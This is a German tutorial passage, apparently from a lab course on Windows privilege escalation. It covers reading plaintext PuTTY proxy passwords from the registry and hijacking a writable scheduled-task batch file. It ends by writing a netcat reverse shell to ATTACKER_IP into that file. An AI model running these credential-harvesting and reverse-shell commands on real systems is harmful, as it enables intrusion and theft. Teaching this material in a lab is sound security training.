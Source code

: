 PuTTY ist ein SSH-Client des Entwicklers Simon Tatham, der häufig auf Windows-Systemen zu finden ist. Anstatt die Parameter einer Verbindung jedes Mal neu festlegen zu müssen, können Benutzer Sitzungen speichern, in denen die IP, der Benutzer und andere Konfigurationen zur späteren Verwendung gespeichert werden können. PuTTY erlaubt es Benutzern zwar nicht, ihr SSH-Passwort zu speichern, aber es speichert Proxy-Konfigurationen, die Klartext-Authentifizierungsdaten enthalten.

Um die gespeicherten Proxy-Zugangsdaten abzurufen, kann mit dem folgenden Befehl unter dem folgenden Registrierungsschlüssel nach ProxyPassword gesucht werden:

```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

So wie Putty Anmeldeinformationen speichert, verfügt jede Software, die Passwörter speichert, einschließlich Browser, E-Mail-Clients, FTP-Clients, SSH-Clients, VNC-Software und andere, über Methoden zur Wiederherstellung von Passwörtern, die der Benutzer gespeichert hat.



### Geplante Aufgaben ( Scheduled )

```
schtasks  # Anzeige der Tasks
```

```shell-session
C:\> schtasks /query /tn vulntask /fo list /v
Folder: \
HostName:                             PSY-PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

Es gibt viele Informationen über die Aufgabe, aber das Wichtigste ist der Parameter "Task to Run", der angibt, was von der geplanten Aufgabe ausgeführt wird, und der Parameter "Run As User", der den Benutzer angibt, der für die Ausführung der Aufgabe verwendet wird.

Wenn der aktuelle Benutzer die ausführbare Datei "Task to Run" ändern oder überschreiben kann, kann er kontrollieren, was von dem Benutzer `taskusr1` ausgeführt wird, was zu einer einfachen Ausweitung der Rechte führt. Um die Dateiberechtigungen für die ausführbare Datei zu überprüfen, kann `icacls` verwendet werden:

```shell-session
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

Wie im Ergebnis zu sehen ist, hat die Gruppe BUILTIN\Users vollen Zugriff (F) auf die Binärdatei der Aufgabe. Das bedeutet, dass wir die .bat-Datei ändern und jede beliebige Nutzlast einfügen können. Der Einfachheit halber befindet sich `nc64.exe` unter `C:\tools`. Ändern wir die bat-Datei, um eine Reverse Shell zu starten:

```shell-session
C:\> echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```
